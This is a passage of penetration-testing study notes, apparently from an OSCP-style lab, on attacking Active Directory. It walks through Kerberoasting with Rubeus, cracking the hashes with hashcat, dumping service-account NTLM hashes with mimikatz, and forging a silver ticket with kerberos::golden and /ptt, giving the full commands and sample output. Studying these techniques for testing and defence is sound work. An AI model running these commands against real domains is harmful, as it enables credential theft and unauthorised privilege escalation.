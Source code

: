 - We can also perform this on a domain host using `Rubeus.exe`
```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
- After obtaining the hashes, we can crack them using `hashcat`
```zsh
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### Silver Tickets
- If we have the password or the associated NTLM hash of a service account we can forge our own service tickets with modified content such as the users group memberships. The following information needs to be available to us
	- SPN password hash
	- Domain SID
	- Target SPN
>[!HINT]
>If we only have the password, we can use this [NTLM Hash generator](https://codebeautify.org/ntlm-hash-generator) to create the NTLM hash from the password
- We can check for available NTLM hashes of service accounts using `mimikatz` 
```zsh
privilege::debug
sekurlsa::logonpasswords

Authentication Id : 0 ; 1147751 (00000000:00118367)
Session           : Service from 0
User Name         : iis_service
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 4:52:14 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1109
        msv :
         [00000003] Primary
         * Username : iis_service
         * Domain   : CORP
         * NTLM     : 4d28cf5252d39971419580a51484ca09
         * SHA1     : ad321732afe417ebbd24d5c098f986c07872f312
         * DPAPI    : 1210259a27882fac52cf7c679ecf4443
```
- In order to get Domain SID we can run `whoami /user` and remove the last part of the SID which specifies the user
```powershell
whoami /user

USER INFORMATION
----------------

User Name SID
========= =============================================
corp\alexa S-1-5-21-1987370270-658905905-1781884369-1108
```
- To get the target SPN we can check with `setspn -L <username>`
- After we have all needed information, we can use the module `kerberos:golden` from `mimikatz` 
```powershell
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
> [!WARNING] 
> Do not use `token::elevate` as the injection to memory for the current session will not work properly (as we will be NTAUTHORITY\SYSTEM)
- The `/ptt` option allows us to inject the forged ticket into the memory of the machine we execute the command on
- The `/user` will be the user set in the forged ticket
- The `/rc4` option is the NTLM hash of the SPN/Service Account